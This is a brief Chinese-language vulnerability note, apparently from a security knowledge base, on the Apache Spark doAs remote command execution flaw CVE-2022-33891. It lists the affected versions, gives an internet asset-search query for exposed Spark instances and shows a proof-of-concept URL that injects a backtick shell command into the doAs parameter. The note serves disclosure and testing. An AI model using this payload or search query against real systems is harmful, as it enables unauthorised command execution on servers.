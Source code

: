 # 

# Apache Spark doAs 远程命令执行漏洞 CVE-2022-33891

## 漏洞描述

Apache Spark 支持启动 ACL 来为 Web UI 访问提供身份验证，当 ACL 启动时可以通过构造特殊请求用户名导致 RCE

## 漏洞影响

```
Spark Core - Apache <=3.0.3
3.1.1 <= Spark Core - Apache <=3.1.2
3.2.0 <= Spark Core - Apache <=3.2.1
```

## 网络测绘

```
app="APACHE-Spark"
```

## 漏洞复现

主页面

![image-20220909104326093](./images/202209091043173.png)

验证POC

```
/jobs/?doAs=`touch /tmp/test.txt`
```

![image-20220909104423065](./images/202209091044113.png)
